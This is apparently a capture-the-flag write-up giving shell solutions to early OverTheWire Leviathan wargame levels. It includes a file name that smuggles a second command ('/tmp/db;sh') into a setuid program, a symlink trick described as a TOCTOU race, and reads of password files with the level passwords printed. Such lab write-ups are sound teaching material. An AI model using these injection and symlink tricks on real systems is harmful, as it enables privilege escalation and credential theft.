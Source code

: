 # [LEVIATHAN](https://overthewire.org/wargames/leviathan/)

## Level 0 -> Level 1
```bash
$ grep "leviathan1" ~/.backup/bookmarks.html 
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is rioGegei8m" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
```

## Level 1 -> Level 2
```bash
$ ./check 
password: sex
$ cat /etc/leviathan_pass/leviathan2
ougahZi8Ta
```

## Level 2 -> Level 3
### Method 1
```bash
$ touch "/tmp/db;sh"
 ./printfile "/tmp/db;sh"
/bin/cat: /tmp/db: No such file or directory
$ whoami
leviathan3
$ cat /etc/leviathan_pass/leviathan3
Ahdiemoo1j
```
### Method 2 (**TOCTOU race**)
```bash
$ mkdir /tmp/whokilleddb
$ touch /tmp/whokilledb/symlink\ space  
$ ln -s /etc/leviathan_pass/leviathan3 /tmp/whokilledb/symlink
$ ./printfile /tmp/whokilledb/symlink\ space
Ahdiemoo1j
/bin/cat: space: No such file or directory
```
